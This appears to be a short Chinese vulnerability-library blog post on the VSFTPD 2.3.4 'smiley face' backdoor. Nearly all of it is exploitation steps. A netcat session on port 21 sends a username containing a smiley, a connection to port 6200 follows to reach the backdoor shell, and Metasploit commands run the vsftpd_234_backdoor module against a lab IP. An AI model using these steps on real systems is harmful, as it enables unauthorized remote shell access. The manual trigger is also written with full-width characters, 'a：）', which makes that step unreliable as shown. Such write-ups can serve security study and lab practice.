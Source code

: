 ```yaml
---
title: 笑脸漏洞(VSFTPD2.3.4)
author: Zk
date: 2025-06-08 17:10:00 +0800
last_modified_at: 2025-06-08 17:10:00 +0800
categories: [漏洞库]
tags: [漏洞库 , RCE , FTP]
math: true
mermaid: true
---
```



# 笑脸漏洞(VSFTPD2.3.4)

## 手工利用

利用瑞士小军刀（netcat），连接靶机的21端口，输入user带有：），pass随便输入。

`nc x.x.x.x 21`

`user a：） pass 123456`

然后直接连接6200端口
` nc x.x.x.x 6200`

## MSF利用

    search vsftpd
    use exploit/unix/ftp/vsftpd_234_backdoor
    set RHOSTS 172.16.1.104
    run